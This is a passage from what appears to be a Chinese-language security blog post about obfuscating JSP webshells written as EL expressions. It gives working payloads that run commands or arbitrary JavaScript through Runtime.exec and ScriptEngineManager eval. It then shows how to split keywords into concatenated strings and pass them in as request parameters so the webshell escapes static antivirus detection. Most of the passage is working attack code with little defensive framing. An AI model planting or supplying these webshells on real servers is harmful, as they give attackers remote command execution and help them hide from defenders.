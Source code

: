 ```
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}

```

这段代码还是包含了一些较为敏感的关键字，譬如forName、getEngineByName、eval等，作为一个webshell来讲，显然是不够“干净整洁”的；为进一步混淆，我们可以采用动态传递的方式来替换关键字。

在EL表达式中，我们知道获取属性可以使用a.b或者a['b']，使用后者就意味着我们可以把所有属性和方法转化成字符串：

```
${""["getClass"]()["forName"]("javax.script.ScriptEngineManager")["newInstance"]()["getEngineByName"]("JavaScript")["eval"]("...")}

```

那么这样做有什么好处呢？

首先我们可以**随意拼接**：

```
${""["ge"+"tCl"+"ass"]()["for"+"Name"]("javax.scr"+"ipt.ScriptEng"+"ineManager")["newIn"+"stance"]()["getEng"+"ineByName"]("Java"+"Script")["e"+"val"]("...")}

```

更重要的是如此我们可以**将字符串通过param.xxx**来传递，这样就可以实现如下的改造：

```
${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}

```

测试后可以执行：

这种高度精简就实现了将绝大部分代码通过传递来执行，应当具有较好的静态免杀能力。

### 0x04 总结

这个小思路也是启发于这位师傅，同时也想到了之前的RWCTF中的题目，而从本质上讲也许可以把它看作是EL表达式注入的另类使用。

我们从最初的

```
${Runtime.getRuntime().exec(param.cmd)}

```

到

```
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}

```

再到

```
${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}

```
